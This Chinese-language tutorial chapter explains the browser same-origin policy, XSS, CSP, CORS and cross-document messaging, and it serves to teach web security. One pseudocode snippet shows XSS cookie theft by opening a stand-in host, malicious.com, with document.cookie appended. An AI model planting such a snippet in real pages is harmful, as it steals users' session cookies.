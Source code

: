 # 32.同源策略：为什么XMLHttpRequst不能跨域请求资源

通过前面 `6` 个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的 `5` 篇文章，我们就来系统地介绍下浏览器安全相关的内容。

浏览器安全可以分为**三大块**——**`Web` 页面安全**、**浏览器网络安全**和**浏览器系统安全**，所以本模块我们就按照这个思路来做介绍。鉴于**页面安全**的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。

今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，`Web` 世界会是什么样子的呢？

`Web` 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

`Web` 世界是开放的，这很符合 `Web` 理念。但如果 `Web` 世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

- 修改银行站点的 `DOM`、`CSSOM` 等信息；
- 在银行站点内部插入 `JavaScript` 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 `Cookie`、`IndexedDB` 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

所以说，在没有安全保障的 `Web` 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全。

这就引出了页面中最基础、最核心的安全策略：**同源策略**（`Same-origin policy`）。

## 什么是同源策略

要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 `URL` 的协议、域名和端口都相同，我们就称这两个 `URL` 同源。比如下面这两个 `URL`，它们具有相同的协议 `HTTPS`、**相同的域名**` time.geekbang.org`，以及**相同的端口** `443`，所以我们就说这两个 `URL` 是**同源的**。


```
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个**相同的源**之间是可以**相互访问资源**和**操作 `DOM`** 的。两个不同的源之间若想要相互访问资源或者操作 `DOM`，那么会有一套**基础的安全策略**的制约，我们把这称为**同源策略**。

具体来讲，同源策略主要表现在 `DOM`、**`Web` 数据**和**网络**这三个层面。

**第一个，`DOM` 层面**。同源策略限制了来自不同源的 `JavaScript` 脚本对当前 `DOM` 对象读和写的操作。

**第二个，数据层面。同源策略限制了不同源的站点读取当前站点的 `Cookie`、`IndexedDB`、`LocalStorage` 等数据**。由于同源策略，我们依然无法通过第二个页面的 `opener` 来访问第一个页面中的 `Cookie`、`IndexedDB` 或者 `LocalStorage` 等内容。你可以自己试一下，这里我们就不做演示了。

**第三个，网络层面**。同源策略限制了通过 `XMLHttpRequest` 等方式将站点的数据发送给**不同源的站点**。你还记得在《`17` | `WebAPI`：`XMLHttpRequest` 是怎么实现的？》这篇文章的末尾分析的 `XMLHttpRequest` 在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下**不能访问跨域的资源**。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的 `DOM`、页面数据和网络通信，进而实现 `Web` 页面的安全性。

不过**安全性**和**便利性**是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 `Web` 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 **`XSS` 攻击**和 **`CSRF` 攻击**，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 1. 页面中可以嵌入第三方资源

我们在文章开头提到过，`Web` 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 `HTML` 文件、`JavaScript` 文件、`CSS` 文件、图片等资源都部署在同一台服务器上，这无疑违背了 `Web` 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 `CDN` 上时，`CDN` 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些**恶意程序劫持**，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 `HTML` 文件中插入恶意脚本。

比如，恶意程序在 `HTML` 文件内容中插入如下一段 `JavaScript` 代码

![](http://ahuntsun.gitee.io/blogimagebed/img/browser/part6/ls32/1.png)

当这段` HTML` 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、**改变**一些内容的**连接指向**，等等。

除此之外，它还能将页面的的敏感数据，如 `Cookie`、`IndexDB`、`LoacalStorage` 等数据通过 `XSS` 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个**恶意链接**时，恶意 `JavaScript` 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 `Cookie` 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 `Cookie` 信息。

以上就是一个非常典型的 `XSS` 攻击。为了解决 `XSS` 攻击，浏览器中引入了**内容安全策略**，称为 `CSP`。`CSP` 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 `JavaScript` 代码。通过这些手段就可以大大减少 `XSS` 攻击。

### 2. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过 `XMLHttpRequest` 或者 `Fetch` 来请求 `InfoQ` 中的资源，这时同源策略会阻止其向 `InfoQ` 发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了**跨域资源共享**（`CORS`），使用该机制可以进行**跨域访问控制**，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则**无法相互操纵 `DOM`**。不过在实际应用中，经常需要两个不同源的 `DOM` 之间进行通信，于是浏览器中又引入了**跨文档消息机制**，可以通过 `window.postMessage` 的 `JavaScript` 接口来和不同源的 `DOM` 进行**通信**。

## 总结

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

同源策略会**隔离不同源**的 `DOM`、**页面数据**和**网络通信**，进而实现 `Web` 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

页面中可以引用第三方资源，不过这也暴露了很多诸如 `XSS` 的安全问题，因此又在这种开放的基础之上引入了 `CSP` 来限制其自由程度。
使用 `XMLHttpRequest` 和 `Fetch` 都是**无法直接进行跨域请求**的，因此浏览器又在这种严格策略的基础之上引入了**跨域资源共享策略**，让其可以安全地进行跨域操作。
两个不同源的 `DOM` 是不能相互操纵的，因此，浏览器中又实现了**跨文档消息机制**，让其可以比较安全地通信。